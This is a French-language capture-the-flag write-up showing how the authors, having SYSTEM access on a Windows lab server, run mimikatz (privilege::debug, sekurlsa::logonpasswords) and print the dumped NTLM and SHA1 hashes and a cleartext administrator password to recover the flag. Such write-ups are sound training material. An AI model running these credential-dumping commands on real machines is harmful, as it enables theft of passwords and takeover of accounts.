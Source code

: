 Avec la commande `whoami`, on peut voir qu'on est `autorite nt\system`. En se promenant sur le serveur et plus précisément dans le répertoire `C:\Users\Administrateur\Desktop>`, on trouve le fichier `flag.txt`. 

``````shell
#Affichage du contenu de flag.txt
C:\Users\Administrateur\Desktop>type flag.txt
--------------------------------File---------------------------------
type flag.txt
The flag is AST16{administrator password here}

Not so easy boy ! You have to dump the administrator password
in order to have the flag !!!

Enjoy
``````

Pour avoir le flag complet, nous avons cherché le mot de passe de l'administrateur. En parcourant les répertoires, nous sommes tombées sur l'utilitaire `mimikatz` présent dans `C:\Users`.

````shell
#Lancement mimikatz
C:\Users>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.1.1 (x64) built on Aug 13 2017 17:27:53
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */


#Vérification privilège
mimikatz # privilege::debug
Privilege '20' OK
````

Puis nous avons utilisé la commande `SEKURLSA::Logonpasswords` qui permet de lister les noms d'utilisateurs et mots de passe récemment utilisés sur la machine.

````shell
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 139030 (00000000:00021f16)
Session           : Interactive from 0
User Name         : Gagou
Domain            : WIN-A9N14JRU9ZT
Logon Server      : WIN-A9N14JRU9ZT
Logon Time        : 26/10/2020 07:36:50
SID               : S-1-5-21-3936968770-2739974228-1943027205-1000
        msv :
         [00000002] Primary
         * Username : Gagou
         * Domain   : WIN-A9N14JRU9ZT
         * NTLM     : de89fdea6ca42d00e68a7ac4162cb3ee
         * SHA1     : c2da56740fe5e73225376a93d846215fd8159cdf
        tspkg :
         * Username : Gagou
         * Domain   : WIN-A9N14JRU9ZT
         * Password : 1234AST16backAdmin
        wdigest :
         * Username : Gagou
         * Domain   : WIN-A9N14JRU9ZT
         * Password : 1234AST16backAdmin
        kerberos :
         * Username : Gagou
````